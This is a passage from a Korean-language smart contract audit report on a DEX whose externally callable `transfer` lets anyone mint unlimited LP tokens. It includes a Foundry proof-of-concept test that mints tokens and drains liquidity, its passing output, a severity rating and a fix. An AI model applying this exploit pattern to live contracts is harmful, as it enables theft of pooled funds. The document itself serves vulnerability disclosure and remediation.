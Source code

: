 ```solidity
        return true;
    }
```

`transfer` 함수가 external로 선언되어 외부에서 호출이 가능하다.

lpt에 선언한 `transfer` 에서 `admin` 인지 체크하지만 이는 dex의 `transfer` 가 lpt의 `transfer` 를 호출하기에 `msg.sender` 는 admin(dex)이므로 성공적으로 민팅을 실행하게 된다.

이를 통해 무한정으로 LP토큰을 발행할 수 있고, 이를 통해 실제 토큰으로 변환하여 사용할 수 있다.

## PoC

```solidity
function testPOC() external {
        uint lp = dex.addLiquidity(1 ether, 1 ether, 0);
        vm.startPrank(address(0x01));
        {
            dex.transfer(address(0x01), lp * 9999);
            (uint balanceOfX, uint balanceOfY) = dex.removeLiquidity(
                lp * 9999,
                0,
                0
            );
            console.log("balance", balanceOfX, balanceOfY);
            console.log(
                "balance",
                tokenX.balanceOf(address(0x01)),
                tokenY.balanceOf(address(0x01))
            );
        }
    }
```

```solidity
Running 1 test for test/Dex.t.sol:DexTest
[PASS] testPOC() (gas: 208585)
Logs:
  balance 999900000000000000 999900000000000000
```

다음과 같이 원하는 만큼 토큰을 발행할 수 있게 된다.

## 파급력

원하는 만큼 LP토큰을 주조하고 이를 성공적으로 현금화할 수 있기에 위험도는 매우 높다고 판단할 수 있다.

## 해결 방안

```solidity
function transfer(address to, uint256 lpAmount) internal returns (bool) {
				require(msg.sender == address(this));
        require(lpAmount > 0);

        lpt.mint(payable(address(this)), lpAmount);
        lpt.transfer(payable(to), lpAmount);

        return true;
    }
```
